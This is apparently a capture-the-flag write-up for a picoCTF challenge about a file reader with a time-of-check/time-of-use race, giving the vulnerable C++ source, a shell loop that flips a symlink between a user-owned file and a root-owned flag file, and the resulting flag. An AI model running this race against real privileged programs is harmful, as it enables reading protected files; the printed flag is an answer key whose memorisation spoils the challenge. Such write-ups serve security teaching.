

# tic-tac
> Someone created a program to read text files; we think the program reads files with root privileges but apparently it only accepts to read files that are owned by the user running it.

> Additional details will be available after launching your challenge instance.

## About the Challenge
We have been given access to an SSH server, and there are 3 files in the `/home/ctf-player` directory. The files are `flag.txt` which contains the flag, `src.cpp` the source code of the file, and `txtreader` the compiled src.cpp file. Here is the content of the `src.cpp`

```cpp
#include <iostream>
#include <fstream>
#include <unistd.h>
#include <sys/stat.h>

int main(int argc, char *argv[]) {
    if (argc != 2) {
        std::cerr << "Usage: " << argv[0] << " <filename>" << std::endl;
        return 1;
    }                                                                                                                             
    
    std::string filename = argv[1];
    std::ifstream file(filename);
    struct stat statbuf;

    // Check the file's status information.
    if (stat(filename.c_str(), &statbuf) == -1) {
        std::cerr << "Error: Could not retrieve file information" << std::endl;
        return 1;
    }
    
    // Check the file's owner.
    if (statbuf.st_uid != getuid()) {
        std::cerr << "Error: you don't own this file" << std::endl;
        return 1;
    }
    // Read the contents of the file.
    if (file.is_open()) {
        std::string line;
        while (getline(file, line)) {
            std::cout << line << std::endl;
        }
    } else {
        std::cerr << "Error: Could not open file" << std::endl;
        return 1;
        }
    return 0;
}
```

So if we run `./txtreader flag.txt`, the output is `Error: you don't own this file` because to open `flag.txt` file we need to login as `root` first



## How to Solve?
If we check the tag of the chall is `TOCTOU` vulnerability (Time-Of-Check Time-Of-Use). And then im searching about `TOCTOU` vulnerability in C program and then I found this website (You can access the website [here](https://samsclass.info/127/proj/E10.htm))

You run this command to solve the chall and obtain the flag

```shell
echo "PUBLIC INFORMATION" >> public
for i in {1..1000}; do ln -sf flag.txt flip; ln -sf public flip; done
while true; do ln -sf flag.txt flip; ln -sf public flip; done &
for i in {1..30}; do ./txtreader flip; done
```

So, first you need to create a file that can be accessed by yourself called `public`. And then testing the flipping rate. And then flips the link from `public` to `flag.txt` rapidly and runs in the background. And then try to execute the `txtreader` file multiple times to get the flag


```
picoCTF{ToctoU_!s_3a5y_0490d70a}
```